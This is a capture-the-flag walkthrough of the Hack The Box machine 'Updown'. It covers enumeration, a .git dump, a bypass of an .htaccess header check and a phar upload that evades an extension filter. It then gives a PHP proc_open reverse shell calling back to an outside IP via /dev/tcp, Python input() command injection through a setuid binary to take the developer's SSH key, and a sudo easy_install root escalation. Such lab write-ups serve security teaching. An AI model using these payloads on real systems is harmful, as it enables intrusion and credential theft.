





# Updown
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.177 --min-rate 1000            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 16:46 GMT
Warning: 10.10.11.177 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.177 (10.10.11.177)
Host is up (0.19s latency).
Not shown: 64486 closed tcp ports (conn-refused), 1047 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 109.57 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.177 --min-rate 1000 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 16:49 GMT
Nmap scan report for 10.10.11.177 (10.10.11.177)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.72 seconds

```

- Web Server 


- `gobuster`

```
└─$ gobuster dir -u http://10.10.11.177/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error  

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.177/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1131]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/dev                  (Status: 301) [Size: 310] [--> http://10.10.11.177/dev/]
```

- `vhosts`
```
└─$ wfuzz -u http://siteisup.htb/ -H 'Host: FUZZ.siteisup.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 93  
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://siteisup.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000019:   403        9 L      28 W       281 Ch      "dev"
```

- `dev.siteisup.htb`


- If I used only `directory-list-2.3-medium.txt`, I would've missed `.git` repo
  - Always use multiple wordlists
    - `raft-medium-words.txt` for example
```
└─$ gobuster dir -u http://siteisup.htb/dev/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x txt,html,js,php --no-error -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://siteisup.htb/dev/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 0]
/.html.js             (Status: 403) [Size: 277]
/.htm.txt             (Status: 403) [Size: 277]
/.htm.html            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htm.js              (Status: 403) [Size: 277]
/.htm.php             (Status: 403) [Size: 277]
/.html.html           (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/.html.php            (Status: 403) [Size: 277]
/.html.txt            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 0]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.js         (Status: 403) [Size: 277]
/.phtml               (Status: 403) [Size: 277]
/.htc.txt             (Status: 403) [Size: 277]
/.htc.html            (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.htc.js              (Status: 403) [Size: 277]
/.htc.php             (Status: 403) [Size: 277]
/.html_var_DE.html    (Status: 403) [Size: 277]
/.html_var_DE.txt     (Status: 403) [Size: 277]
/.html_var_DE         (Status: 403) [Size: 277]
/.html_var_DE.php     (Status: 403) [Size: 277]
/.html_var_DE.js      (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.js         (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.git                 (Status: 301) [Size: 315] [--> http://siteisup.htb/dev/.git/]

```
## Foothold
- `SSRF`


- But nothing interesting comes of it
  - Let's navigate to `http://10.10.11.177/dev/.git/`
  - We will use [git-dumper](https://github.com/arthaud/git-dumper)
    - `sudo pip3 install git-dumper` 
```
└─$ git-dumper http://10.10.11.177/dev/.git/ .
[-] Testing http://10.10.11.177/dev/.git/HEAD [200]
[-] Testing http://10.10.11.177/dev/.git/ [200]
<SNIP>
[-] Fetching http://10.10.11.177/dev/.git/logs/refs/remotes/origin/ [200]
[-] Fetching http://10.10.11.177/dev/.git/logs/refs/remotes/origin/HEAD [200]
[-] Running git checkout .
Updated 6 paths from the index
```

- We see why couldn't access `dev.siteisup.htb`
```
└─$ cat .htaccess                      
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header

```

- All rules are processed
  - And the last is applied
  - So `Deny from all` is processed first
  - But then `Allow from env=Required-Header` is applied
  - So we need to set `Special-Dev` header with value `only4dev`
  - I used `Modify Header Value` extension in `Firefox`





- `checker.php` performs a check of sites we upload via file
  - It has a list of restricted file extensions
    - `php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar`
  - It creates a file inside `/uploads/<random_md5>/`
  - I'll create a list of hosts
```
10.10.16.4
localhost
10.10.11.177
```

- Let's test the site


- Folder is created, but it's empty


- It looks like it's deleted due to `@unlink($final_path);` in `checker.php`
  - But, site doesn't check for `phar` files (PHP Archive)
```
└─$ echo "<?php phpinfo(); ?>" > test.php
```
```
└─$ zip test.phar test.php        
  adding: test.php (stored 0%)
```

- And we can successfully bypass the check



- If we click on file we see `phpinfo()`


- We could also bypass this check if we would've changed the final extension to something different
  - In that case we have to visit the page `http://dev.siteisup.htb/?page=phar://uploads/<MD5>/test.phar/test`



- There is a list of disabled functions
  - `system,exec,shell_exec` are among them


- We can use [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) to find which functions can be abused
```
<SNIP>
if(args.url):
    url = args.url
    headers = { "Special-dev" : "only4dev" }
    phpinfo = requests.get(url, headers=headers).text
<SNIP>
```

- Now if we run it, we see that [proc_open](https://www.php.net/manual/en/function.proc-open.php) is not disabled
  - `similar to popen() but provides a much greater degree of control over the program execution.`
```
└─$ python2.7 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/efeb2ab6345825563a2b00316e3b4ce9/test.phar/test
<SNIP>     

Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

- We can find reverse shell in this [repo](https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7)
```
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```
```
└─$ zip rev.phar rev.php  
  adding: rev.php (deflated 38%) 
```

- Upload the archive and open the link



## User
- `developer`'s home directory has `dev` folder which can be accessed by `www-data`
```
www-data@updown:/var/www$ ls -lha /home/developer/
total 40K
drwxr-xr-x 6 developer developer 4.0K Aug 30  2022 .
drwxr-xr-x 3 root      root      4.0K Jun 22  2022 ..
lrwxrwxrwx 1 root      root         9 Jul 27  2022 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22  2022 .bash_logout
-rw-r--r-- 1 developer developer 3.7K Feb 25  2020 .bashrc
drwx------ 2 developer developer 4.0K Aug 30  2022 .cache
drwxrwxr-x 3 developer developer 4.0K Aug  1  2022 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 2 developer developer 4.0K Aug  2  2022 .ssh
drwxr-x--- 2 developer www-data  4.0K Jun 22  2022 dev
-rw-r----- 1 root      developer   33 Nov 10 16:29 user.txt

```
```
www-data@updown:/var/www$ ls -lha /home/developer/dev/
total 32K
drwxr-x--- 2 developer www-data  4.0K Jun 22  2022 .
drwxr-xr-x 6 developer developer 4.0K Aug 30  2022 ..
-rwsr-x--- 1 developer www-data   17K Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data   154 Jun 22  2022 siteisup_test.py
```
```
www-data@updown:/home/developer/dev$ file siteisup
siteisup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b5bbc1de286529f5291b48db8202eefbafc92c1f, for GNU/Linux 3.2.0, not stripped
```

- `siteisup_test.py`
  - `input` is injectable
  - We can input command which will be evaluated 
    - https://www.stackhawk.com/blog/command-injection-python/
```
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

- Testing proves it
```
www-data@updown:/home/developer/dev$ python2.7 siteisup_test.py
Enter URL here:__import__('os').system('id')
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
```

- But only binary has `suid` bit
  - If we run it, it looks the same
  - I entered the same payload and we got the execution by `developer`
```
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?

```

- `developer` has private key
  - I'll download it and connect via `ssh`
```
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('ls -lha /home/developer/.ssh/')
total 20K
drwx------ 2 developer developer 4.0K Aug  2  2022 .
drwxr-xr-x 6 developer developer 4.0K Aug 30  2022 ..
-rw-rw-r-- 1 developer developer  572 Aug  2  2022 authorized_keys
-rw------- 1 developer developer 2.6K Aug  2  2022 id_rsa
-rw-r--r-- 1 developer developer  572 Aug  2  2022 id_rsa.pub

```
```
└─$ ssh developer@10.10.11.177 -i id_rsa
Warning: Permanently added '10.10.11.177' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 10 18:03:14 UTC 2023

  System load:           0.0
  Usage of /:            49.9% of 2.84GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.177
  IPv6 address for eth0: dead:beef::250:56ff:feb9:4062

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36
developer@updown:~$ 

```
## Root
- `sudo`
```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install

```

- It's a python script
```
developer@updown:~$ file /usr/local/bin/easy_install
/usr/local/bin/easy_install: Python script, ASCII text executable
```
```
developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

- [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/)
```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.0bbL0ArNMQ
Writing /tmp/tmp.0bbL0ArNMQ/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.0bbL0ArNMQ/egg-dist-tmp-gXK9MI
# whoami
root
# 
```